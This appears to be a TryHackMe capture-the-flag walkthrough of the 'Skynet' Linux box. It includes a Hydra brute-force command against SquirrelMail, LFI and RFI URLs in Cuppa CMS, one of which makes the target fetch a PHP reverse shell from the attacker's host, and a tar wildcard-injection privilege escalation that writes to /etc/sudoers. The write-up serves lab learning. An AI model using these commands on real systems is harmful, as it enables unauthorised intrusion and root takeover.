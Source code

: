 Skynet TryHackMe Walkthrough

Introduction
This was an easy Linux box that involved accessing an open SMB share containing a list of credentials that could be used to bruteforce a SquirrelMail web application, finding SMB credentials on the application to access a new share which revealed a second web application, and exploiting a remote file inclusion vulnerability in Cuppa CMS to gain remote access. Privilege escalation was possible due to a misconfigured cron job running as root and using a wildcard with the tar command.

Enumeration
The first thing to do is to run a TCP Nmap scan against the 1000 most common ports, and using the following flags:

-sC to run default scripts
-sV to enumerate applications versions
-Pn to skip the host discovery phase, as some hosts will not respond to ping requests
-oA to save the output in all formats available
![image](https://user-images.githubusercontent.com/71508714/169668306-429f63c0-fa69-4b4d-b5fc-68f43121ed3d.png)

We can see that we have several open ports on this machine:

Port 22 — SSH, not worth to check it for now
Port 80 — A web page running a search website
Port 110 — POP3, prolly a mail server
Port 143 — IMAP, prolly also part of the mail server
Port 139/445 — SMB ports, this is a good starting point
![image](https://user-images.githubusercontent.com/71508714/169668382-80739b1e-7dba-48a7-a0e0-b8f03a9ca885.png)

By checking the directories, we found the login page of the mail server:
![image](https://user-images.githubusercontent.com/71508714/169668447-26c8ef56-04b8-42e5-9d00-78b46641cb70.png)

Tried hydra & sqlinject but nothing have happen.

Enumerating SMB:

SMB eumeration can be done by nmap scripts also.
![image](https://user-images.githubusercontent.com/71508714/169668548-7e0527ee-b3ab-4c22-be7d-b66797b8762d.png)
![image](https://user-images.githubusercontent.com/71508714/169668583-2bbdc350-322c-4c55-b45e-686c8f278f21.png)

Using the SMBClient tool to list the open shares on the host:

![image](https://user-images.githubusercontent.com/71508714/169668655-ef9020a5-b3be-4e4a-bfe3-b5f929217871.png)
Connecting to the “anonymous” share, this contains a text file and a “logs” folder, containing three log files. Downloading all of the files locally to furhter examine them:

![image](https://user-images.githubusercontent.com/71508714/169668686-0af707e1-bb8b-4f09-a1cc-2ee066fb2a14.png)

The “attention.txt” file contains a note that mentions a password change in the organization, whereas the logs contain what looks like a word list of some sort, potentially from an authentication log:

![image](https://user-images.githubusercontent.com/71508714/169668742-3ff023a7-eddf-4850-a3bb-f4be6018b9c3.png)

While ‘log2.txt’ and ‘log3.txt’ are empty, ‘log1.txt’ appears to have some kind of list of usernames or passwords. Also the milesdyson share is not accessible, but we can try to use the name on the mail server and the list as a password list.

We can use something like Hydra to try to brute force it or burp intruder. First, let’s save the list in a file that we can use. Second we need to make an attempt to login and get the POST url:

![image](https://user-images.githubusercontent.com/71508714/169669138-f9b35b7d-be53-49ef-8714-23a72e0de60f.png)

After a couple of tries, we finally get a working command. Now let’s try to use Hydra to brute force it using the provided list:

hydra -l milesdyson -P log1.txt 10.10.174.36 -V http-form-post ‘/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.’

And after running, we get a hit:

![image](https://user-images.githubusercontent.com/71508714/169669191-9e6a5984-9d6a-41b6-a440-764b05724701.png)

So let’s try to login with the newly found credentials:

![image](https://user-images.githubusercontent.com/71508714/169669217-95957a31-0a3a-403e-92f8-f2b59655215f.png)

Now we can answer the first question in the task “What is Miles password for his emails?” with the password found in ‘log1.txt’.

By checking the emails, we found an email regarding a reset password (remember the previous attention.txt file?):

![image](https://user-images.githubusercontent.com/71508714/169669261-e3b2c913-9ed5-4a27-9d81-e37b4e16f289.png)

Ok, heading back to the smb shares, we can now try to access the milesdyson share using the username milesdyson and the new password:

![image](https://user-images.githubusercontent.com/71508714/169669298-882b6dd1-1446-4b33-87ec-dd05fd376662.png)

![image](https://user-images.githubusercontent.com/71508714/169669334-e95091dd-7d6f-46aa-a4a1-e667e6ac1671.png)

![image](https://user-images.githubusercontent.com/71508714/169669363-eef16619-a937-4a7e-8ce9-41a0133fe09e.png)

Ok we found a bunch of .pdf files and a ‘notes’ directory. Inside there is a bunch of .md files and a text file called ‘important.txt’. Let’s check that file:

![image](https://user-images.githubusercontent.com/71508714/169669395-65eabb52-d0e7-4ad7-b815-be2aa1a2c601.png)

Interesting! We have some sort of directory in the file. Let’s try to access that on the main web page:

![image](https://user-images.githubusercontent.com/71508714/169669417-d814f201-f368-44e8-9c0e-bb94d6341c81.png)

Ok, we can now answer the question “What is the hidden directory?” with the value of the new found directory.

Let’s to do another Gobuster search in the new found webpage, to see if we get some new results:

![image](https://user-images.githubusercontent.com/71508714/169669444-48cee6e7-7141-4c91-8694-56cbc483012d.png)


Checking the new directory, we are presented with a login page for a Cuppa CMS platform:

![image](https://user-images.githubusercontent.com/71508714/169669489-7009e72f-4ac7-4445-b5e7-e721be811134.png)

Not having a clear attack vector for now, the best choice is to try to check if the said version of the CMS has some known vulnerabilities that we can take advantage of.

While searching, we manage to find the oficial documentation of the CMS here, which mentions that the default credentials are ‘admin’:’admin’, but those do not work.

Searching for RFI vulnerabilities affecting Cuppa CMS leads to https://www.exploit-db.com/exploits/25971.:

![image](https://user-images.githubusercontent.com/71508714/169669532-b8d86694-812c-4ce5-beb4-0b1c30fab592.png)

After reading the exploit and tweaking a little bit of the url, we call the following URL:

http://skynet/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
And list the /etc/passwd file, so the exploit is working:

![image](https://user-images.githubusercontent.com/71508714/169669563-b7b11be9-fe4d-4e51-8769-9d79b73090fe.png)


So Local File Inclusion is possible, but in order to get a foothold on the server, we need to use a Remote File Inclusion attack. The main difference is that in the Local File Inclusion, local files are used while in the Remote File Inclusion, as the name implies, remote files are used instead, allowing us to pass an url with a script to be executed.

Let’s first create a small one line reverse shell file, using the following code, replacing IP and Port with your IP address and a Port to be used in our reverse shell listener:

Copying the php reverseshell from https://pentestmonkey.net/

![image](https://user-images.githubusercontent.com/71508714/169669716-e3da5738-8220-40a6-a7cc-74cf5a0011a3.png)

After this, let’s set up a netcat listener on the Port defined .

![image](https://user-images.githubusercontent.com/71508714/169669756-fdc4d956-fb31-4d33-8602-505759f6629e.png)


Now we need to put an http server up in the air, on the directory where we have the reverse shell code, using Python:

sudo Python3 -m http.server 80

![image](https://user-images.githubusercontent.com/71508714/169669752-3e654633-293f-4f24-a8d7-8c6637332649.png)

Now, open the following URL in your browser: http://10.10.67.236/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.50.72:8000/php-reverse-shell.php. You should have a reverse shell:

![image](https://user-images.githubusercontent.com/71508714/169669792-f7c3feb6-e188-4cbd-af20-7265658774fa.png)

Privilege Escalation

So my usual steps into enumerate linux boxes usually are to check for sudo permissions, crontab jobs running and to get a linpeas script and run an automated enumeration in order to look for clues.

Since we have a dumb shell, we need to upgrade it to a interactive tty shell, using the following Python command:

python -c ‘import pty;pty.spawn(“/bin/bash”)’

We can check for the sudo permissions with the sudo -l command:

![image](https://user-images.githubusercontent.com/71508714/169669821-f9513c05-676a-4705-a902-7600a2914d8a.png)

So we don’t have permissions to check if we can run something as sudo. Let’s try to enumerate crontab instead:

![image](https://user-images.githubusercontent.com/71508714/169669839-52deec70-ef67-4e11-8868-2741b5c98057.png)

Ok, we can see that there is some backup.sh running every minute. Let’s check the permissions on that folder or script:

![image](https://user-images.githubusercontent.com/71508714/169669856-5268ab18-203a-4516-af2a-e3c179c2b896.png)


![image](https://user-images.githubusercontent.com/71508714/169669873-bca0ab95-08d9-4f65-9853-f5b3144793e7.png)

o as we can see, this script runs as root, changes directory to ‘/var/www/html’ and then uses tar to compress the content of the directory into a file called backup.tgz at ‘/home/milesdyson/backups’.

We could check for a possible attack vector, in the gtfobins page but since only the script is allowed to run tar as root, there is not much we can use from there. After a couple of searches, I’ve found a potential Linux privilege escalation using wildcard injection. Basically, tar allows the usage of 2 options that can be used for poisoning, in order to force the binary to execute unintended actions:

checkpoint[=NUMBER] — this option displays progress messages every NUMBERth record (default value is 10)
checkpoint-action=ACTION — this option executes said ACTION on each checkpoint
By forcing tar to use these options, we can use a specific action with the permissions of the user that is running the command, which in our case is root.

So, in order to take advantage of this, let’s create a script to add our user to sudoers and gain root while on the machine:

echo ‘echo “www-data ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > sudo.sh
touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"
touch "/var/www/html/--checkpoint=1"

After running all three commands in our /var/www/html, we should have 3 new files laying around inside the directory that is getting backed up:

![image](https://user-images.githubusercontent.com/71508714/169669902-6a192e41-9a4a-4a4e-9c3a-124a6d9196d3.png)

Now, after a minute, the cronjob should have been executed, and we can get our root access by just using sudo su:

![image](https://user-images.githubusercontent.com/71508714/169669920-d3b2cac6-4f12-492c-a943-0bf64c12cf4a.png)


Overall, this machine was super fun, with a really cool enumeration phase. Probably there is another way of escalating our privileges, but this seemed an easy way of doing it.

I hope you enjoyed reading this post as much as I enjoyed writing it. Let me know in the comments if something is wrong or missing, as I am still learning myself and feedback is always welcomed :)



